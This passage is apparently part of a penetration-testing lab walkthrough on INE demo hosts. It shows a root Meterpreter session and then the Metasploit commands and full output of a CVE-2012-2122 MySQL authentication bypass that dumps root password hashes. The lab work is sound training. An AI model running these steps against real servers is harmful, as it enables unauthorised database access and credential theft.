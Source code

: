 `sessions`, `sessions -i 1`, `sysinfo`:
```
Computer    : demo2.ine.local
OS          : Linux 5.4.0-152-generic (amd64)
Meterpreter : java/linux
```

`getuid`:
```
Server username: root
```

**Step 7**.

`search cve:2012-2122`, `use auxiliary/scanner/mysql/mysql_authbypass_hashdump`, `show options`, `set RHOSTS demo3.ine.local`, `exploit`:
```
[+] 192.10.68.5:3306      - 192.10.68.5:3306 The server allows logins, proceeding with bypass test
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 10% complete
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 20% complete
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 30% complete
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 40% complete
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 50% complete
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 60% complete
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 70% complete
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 80% complete
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Successfully bypassed authentication after 850 attempts. URI: mysql://root:C@192.10.68.5:3306
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Successfully exploited the authentication bypass flaw, dumping hashes...
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Saving HashString as Loot: root:*66251D5A2791AD1B9D7BAA7F76F0F14E1BFF061D
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Saving HashString as Loot: root:*66251D5A2791AD1B9D7BAA7F76F0F14E1BFF061D
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Saving HashString as Loot: root:*66251D5A2791AD1B9D7BAA7F76F0F14E1BFF061D
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Saving HashString as Loot: root:*66251D5A2791AD1B9D7BAA7F76F0F14E1BFF061D
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Saving HashString as Loot: root:*66251D5A2791AD1B9D7BAA7F76F0F14E1BFF061D
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Hash Table has been saved: /root/.msf4/loot/20240215192652_default_192.10.68.5_mysql.hashes_792305.txt
[*] demo3.ine.local:3306  - Scanned 1 of 1 hosts (100% complete)
```

We have successfully bypassed MySQL authentication and dumped all user's hashes using the Metasploit auxiliary module.

In this exercise, we have learned that we can take the help of automated scanning tools, but we cannot rely on them for the final conclusion.

It's always good to look at the exposed services/applications manually and confirm that it is secure or vulnerable. Vulnerability Analysis is a very vast subject and requires in-depth knowledge of all running components.

---